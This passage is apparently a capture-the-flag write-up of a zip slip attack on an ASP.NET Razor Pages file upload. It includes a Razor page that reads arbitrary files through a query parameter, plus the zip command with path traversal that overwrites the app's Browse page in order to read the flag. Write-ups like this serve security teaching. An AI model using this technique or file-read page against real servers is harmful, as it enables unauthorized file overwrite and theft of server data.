 Additionally we can observe the backend is asp.net Razor pages when we check the `/Logs`

> I searched for File upload attacks regarding zip files and found the **zip slip vulnerability** and found a guide online https://infosecwriteups.com/zip-slip-vulnerability-064d46ca42e5


I used this vulnerability to change the code of the `Browse.cshtml` Razor page that allowed me to view the contents of files in the server. 

1. Create (Generate using ChatGPT) a `Browse.cshtml` that expects `file` query parameter that outputs the file passed as argument.
```cs
@page
@{
    // Get the file name from the query parameter
    var fileName = Request.Query["file"].ToString();
    var filePath = $"/app/{fileName}"; 
    string fileContent;

    // Check if the file exists and read its content
    if (System.IO.File.Exists(filePath))
    {
        fileContent = System.IO.File.ReadAllText(filePath);
    }
    else
    {
        fileContent = "The specified file does not exist.";
    }
}
<h1>Browse File Content</h1>
<p>@fileContent</p>
```


2. Create malicious `browse.zip` that will replace the application `/app/Pages/Browse.cshtml`

```bash
zip browse.zip ../../../Pages/Browse.cshtml
```

3. Upload the malicious zip file. 

4. Visit the `/Browse` endpoint and notice the page is replaced with our malicious cshtml file. We can get the flag via`?file=flag.txt`



![alt text](images/zippy-flagg.png)

--- 